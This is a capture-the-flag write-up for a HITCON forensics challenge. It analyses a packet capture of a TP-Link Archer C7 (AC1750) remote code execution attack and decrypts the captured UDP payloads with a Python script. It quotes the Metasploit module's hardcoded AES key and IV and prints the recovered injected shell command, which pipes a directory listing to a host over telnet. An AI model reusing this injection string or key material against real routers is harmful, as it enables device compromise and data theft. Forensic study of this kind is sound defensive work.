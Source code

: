 # AC1750

### Challenge Text

>My router is weird, can you help me find the problem?

### Challenge Work

Examination of the packet capture shows us a lot of conversations between 192.168.0.1 and 192.168.0.105, plus two others. If we look at packets that are directed towards 192.168.0.255 we can see that 192.168.0.1 is advertising itself as a TP-Link Archer C7 (also known as the AC1750).

If we look at all of the conversations (Wireshark > Statistics > Conversations) we can see that the final message sent from the router to the host on 192.168.0.105 appears to be a directory listing of `/` from some Unix system. This got me to thinking that remote code execution was done somehow. I then googled "AC1750 remote code execution" and [found this page](https://www.rapid7.com/db/modules/exploit/linux/misc/tplink_archer_a7_c7_lan_rce/).

I looked at the packets a bit more and tried to extract data from the packets behind the final listing, but did not find anything. I then decided to look at the [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/misc/tplink_archer_a7_c7_lan_rce.rb) of the exploit, as it was linked on the above URL. When I was scrolling the source code I noticed this block:

```ruby
### Line 234
def aes_encrypt(plaintext)
    # Function encrypts perfectly 16 bytes aligned payload

    if (plaintext.length % 16 != 0)
      return
    end

    cipher = OpenSSL::Cipher.new 'AES-128-CBC'
    # in the original C code the key and IV are 256 bits long... but they still use AES-128
    iv = '1234567890abcdef'
    key = 'TPONEMESH_Kf!xn?'
    encrypted = ''
    cipher.encrypt
    cipher.iv = iv
    cipher.key = key

    # Take each 16 bytes block and encrypt it
    plaintext.scan(/.{1,16}/) do |block|
      encrypted += cipher.update(block)
    end

    encrypted
  end
```

It looks like the router is looking for encrypted packets for this exploit to work. The authors even gave us the IV and key! They also let us know that we need to break down the packet data into 16 byte chunks for decrypting. Looking further in the exploit source code told us that this exploit is executed via UDP:

```ruby
### Line 400
udp_sock.put(tpdp_packet)
```

I then filtered down to all UDP packets from our host (192.168.0.105) to the router (192.168.0.1) that were longer than 150 bytes (there were some other casting packets of smaller size).

![./wireshark.png](./wireshark.png)

I then exported this to JSON via Wireshark > File > Export Packet Dissections > Export as JSON. After that we can fiddle with the data and extract our payload, which contains our flag:

```python
import json
import binascii
from Crypto.Cipher import AES
import Crypto.Cipher.AES

# Open Exported JSON data that was exported from the PCAP with this filter:
# ip.src == 192.168.0.105 && udp && udp.length > 175
# Then in Wireshark: File > Export Packet Dissections > As JSON
jf = open("./ac_json.json", "r").read()
jdata = json.loads(jf)

# AES decryption information defined in the exploit code
# https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/misc/tplink_archer_a7_c7_lan_rce.rb
aes_iv = b'1234567890abcdef'
aes_key = b'TPONEMESH_Kf!xn?'

# Define out cipher object
decipher = AES.new(aes_key,AES.MODE_CBC,aes_iv)

# 16 byte chunks, please
def split_hex_string(hex_string):
    n = 32
    return [hex_string[i:i+n] for i in range(0, len(hex_string), n)]

# Iterate over all data and instantiate our global string
decoded_str = ''
for entry in jdata:
    raw_hex_data = entry['_source']["layers"]["data"]["data.data"].replace(":","")

    raw_hex_chunks = split_hex_string(raw_hex_data)
    raw_bin_chunks = [binascii.unhexlify(x) for x in raw_hex_chunks]

    decrypted_bin_chunks = [decipher.decrypt(x) for x in raw_bin_chunks]

    # The 8th chunk of each chunks_list is the tail end of a printf statement.
    # The 5th character of that chunk is the character printf is writing.
    decoded_str += decrypted_bin_chunks[7].decode("utf-8")[4]

print(decoded_str)

#"(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>flag&&ls -l)|telnet 192.168.0.105 4321 
```

```
"(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>flag&&ls -l)|telnet 192.168.0.105 4321 
```

